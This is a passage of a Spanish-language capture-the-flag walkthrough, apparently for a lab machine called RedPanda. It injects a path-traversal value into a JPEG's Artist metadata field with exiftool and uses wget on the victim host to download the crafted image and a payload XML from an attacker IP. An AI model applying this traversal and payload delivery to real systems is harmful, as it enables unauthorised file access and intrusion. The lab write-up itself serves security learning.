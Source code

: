 ```shell
Blue Matrix Column              : 0.14305 0.06061 0.71393
Green Matrix Column             : 0.38512 0.7169 0.09706
Red Tone Reproduction Curve     : (Binary data 32 bytes, use -b option to extract)
Green Tone Reproduction Curve   : (Binary data 32 bytes, use -b option to extract)
Blue Tone Reproduction Curve    : (Binary data 32 bytes, use -b option to extract)
Chromaticity Channels           : 3
Chromaticity Colorant           : Unknown
Chromaticity Channel 1          : 0.64 0.33002
Chromaticity Channel 2          : 0.3 0.60001
Chromaticity Channel 3          : 0.15001 0.06
Device Mfg Desc                 : GIMP
Device Model Desc               : sRGB
Image Width                     : 600
Image Height                    : 720
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 600x720
Megapixels                      : 0.432
```

Ahora editamos el campo `Artist` para hacer el Path Traversal para poder cargar el `pointed_creds.xml` y no el que debería de cargar.

```shell
$ exiftool -Artist="../../../../../tmp/pointed" pointed.jpg 
Warning: [minor] Ignored empty rdf:Bag list for Iptc4xmpExt:LocationCreated - pointed.jpg
    1 image files updated
```

```shell
$ exiftool pointed.jpg | grep Artist
Artist                          : ../../../../../tmp/pointed
```


Ahora nos descargamos la imagen y el XML con el payload en la máquina víctima en el directorio `/tmp/`

```shell
woodenk@redpanda:/tmp$ wget http://10.10.14.80:8081/pointed.jpg
```

```shell
woodenk@redpanda:/tmp$ wget http://10.10.14.80:8081/pointed_creds.xml

```

Y solo falta modificar el `User-Agent` para poder escribir el log malicioso.
